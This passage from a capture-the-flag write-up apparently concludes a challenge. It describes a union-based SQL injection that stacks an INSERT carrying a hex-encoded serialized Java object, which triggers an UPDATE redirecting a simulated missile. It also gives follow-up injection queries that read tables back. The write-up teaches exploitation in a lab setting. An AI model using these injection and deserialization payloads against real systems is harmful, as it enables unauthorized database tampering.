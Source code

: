 `java_out` is the serialized Java object call to `SatelliteQueryFileFolderUtility` in its bytecode form, updating the `pointing_mode` table to set its mode to point to the Sun (`1`).
Now convert the binary into hex so we can send the statement without issues (it's required) - Notepad++ can be used:

![Hex Payload](../img/objectives/o22/hex.jpg)

The final `INSERT` query with payload should look like this, using native SQL function `UNHEX`:<br/>
`union all select @@version; insert into satellite_query (object) VALUES (UNHEX('ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003575706461746520706F696E74696E675F6D6F646520736574206E756D65726963616C5F6D6F64653D312077686572652069643D313B'));`

You can now query the full `satellite_query` table to confirm `results`:<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,jid, object, results)) from satellite_query;`

As well as where missile is pointing to:<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,id, numerical_mode)) from pointing_mode;`

It's pointing on the Sun and away from Earth!!! 🫡

![Win](../img/objectives/o22/win.jpg)
